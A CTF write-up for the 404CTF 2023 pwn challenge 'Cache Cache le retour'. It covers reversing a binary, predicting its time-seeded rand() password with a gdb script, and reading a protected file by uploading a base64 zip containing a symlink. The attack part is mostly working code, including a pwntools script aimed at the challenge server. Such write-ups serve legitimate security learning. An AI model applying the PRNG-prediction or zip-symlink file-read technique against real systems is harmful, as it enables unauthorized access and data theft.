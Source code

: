 ```yaml
---
title: CTFs | 404CTF2023 | PWN | Cache Cache Le Retour
author: Kaiba_404
date: 2023-06-05
categories: [CTFs, 404CTF2023, PWN]
tags: [CTF, 404CTF2023, PWN]
permalink: /CTFs/404CTF2023/pwn/cachecacheleretour
---
```


# Cache Cache le retour

![cache-cache-chall](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/61ac3663-27cb-4b5f-a960-f0aac9df459e)

Using the commands `file cache_cache_le_retour` and `checksec cache_cache_le_retour` to get some more infomation,

```bash
file cache_cache_le_retour 
cache_cache_le_retour: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d574568517100e5aa82bc0cc539ef23a08e43dd3, stripped

checksec cache_cache_le_retour
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

Use Ghidra to read the code. Since the binary file has been stripped, it may be challenging to comprehend the code. As a solution, I decided to rename some functions to enhance the code's readability. The modified function names are displayed in the image below.

![func_name_chache](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/43956ad6-eb89-45fa-86f0-7ad970e0391e)

**The function main**

![main_cache_cache](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/aa32515f-57a5-4bbe-9404-c20ac8269b57)

From the code, it is evident that the password is randomly generated each time the ELF file is executed. The rand() function is utilized to generate a pseudo-random number, with the seed being based on the current timestamps.

Understanding this, we can recreate the password generation process by using the same binary file and providing a seed based on future timestamps, such as the next 30 seconds or more. By generating the password using this approach, we can then attempt to "brute force" the server's password by trying the generated passwords every second until we succeed.

The code below will help us to get the generated password by using gdb script:

```shell
set disassembly-flavor intel

break *0x5555554016a5 # just before the srand() function
commands
    silent
    print($rax)
    set $rax += 33 # add 33s into the current timestamps
    print($rax)
    continue
end

break *0x5555554016ff # just after the loop which generated the password
commands
    silent
    set $pass = (char *) $rbp -0x40 # get the password in the memory
    print($pass)
    quit
end

run
```

Before running this script, we must temporarily disable ASLR (Address space layout randomization) to get the same address each time we launch the ELF file. By using this command \
`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

The breakpoints are put at the instructions that are in the red box in the image below

![br_point](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/6c1fc56e-7b86-407b-82ab-55bd2acb9b56)

Running the script:

```shell
gdb-peda$ source auto_gdb.gdb 
Breakpoint 1 at 0x5555554016a5
Breakpoint 2 at 0x5555554016ff
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
$1 = 0x64818bc0
$2 = 0x64818be1
$3 = 0x7fffffffdcb0 "[FG/9y>frk}>G18bcac["
```

==> password = `[FG/9y>frk}>G18bcac[`

Code for "brute forcing" the access:

```python

from pwn import *
import time

while True:


    p = process("./cache_cache_le_retour")
    # p = remote("challenges.404ctf.fr",31725)


    password = b'[FG/9y>frk}>G18bcac['

    p.recvuntil(b"mot de passe ?\n")
    p.sendline(password)

    sms = p.recv()
    print(sms.decode())

p.interactive()
```

After successful with password, the program will call `give_a_gift` function (name given by me) as shown below

![give_a_gift](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/deab306f-6332-421b-bfc7-6965bb4278af)

This function takes a base64-encoded string as input and saves it as a file named "mystere.zip". Subsequently, it extracts the contents of this file to access the "surprise.txt" file. This indicates that we may be able to exploit the functionality by using symlinks within the "surprise.txt" file, allowing us to read the contents of arbitrary files after uploading them to the server.

We can also see the PS inside the description of the chall. There was something in the sale_au_tresor, so I decided to create a symlink from mystere.txt to the salle_au_tresor.
By using the commands below we will get the base64 file and ready for exploiting
![PS_cache_cahe](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/67161fe4-719e-4340-a471-d50909b44951)

```shell
$ ln -s salle_au_tresor surprise.txt
$ zip --symlinks mystere.zip surprise.txt
$ cat mystere.zip | base64 

UEsDBAoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABwAc3VycHJpc2UudHh0VVQJAAMBumxkAbpsZHV4CwABBOgDAAAE6AMAAHNhbGxlX2F1X3RyZXNvclBLAQIeAwoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABgAAAAAAAAAAAD/oQAAAABzdXJwcmlzZS50eHRVVAUAAwG6bGR1eAsAAQToAwAABOgDAABQSwUGAAAAAAEAAQBSAAAAVQAAAAAA
```

## The complete code

```python
from pwn import *
import time

while True:


    # p = process("./cache_cache_le_retour")
    p = remote("challenges.404ctf.fr",31725)


    password = b'[FG/9y>frk}>G18bcac['

    p.recvuntil(b"mot de passe ?\n")
    p.sendline(password)

    sms = p.recv()

    if b'Je me vois au regret de refuser' in sms:
        p.close()
        time.sleep(0.6)
        continue  
    gif = b"UEsDBAoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABwAc3VycHJpc2UudHh0VVQJAAMBumxkAbpsZHV4CwABBOgDAAAE6AMAAHNhbGxlX2F1X3RyZXNvclBLAQIeAwoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABgAAAAAAAAAAAD/oQAAAABzdXJwcmlzZS50eHRVVAUAAwG6bGR1eAsAAQToAwAABOgDAABQSwUGAAAAAAEAAQBSAAAAVQAAAAAA"
    p.sendline(gif)
    result = p.recvall()

    with open("remote_flag.txt", "wb") as binary_file:

        binary_file.write(result)
        break
print(result)
print('terminate')
p.interactive()

```

**Result**
```shell

[*] Closed connection to challenges.404ctf.fr port 31725
[+] Opening connection to challenges.404ctf.fr on port 31725: Done
[+] Receiving all data: Done (60B)
[*] Closed connection to challenges.404ctf.fr port 31725
b'404CTF{UN_CH3V41_D3_7r013_P0Ur_3NV4H1r_14_54113_4U_7r350r}\n\n'
```

**Flag:**  `404CTF{UN_CH3V41_D3_7r013_P0Ur_3NV4H1r_14_54113_4U_7r350r}`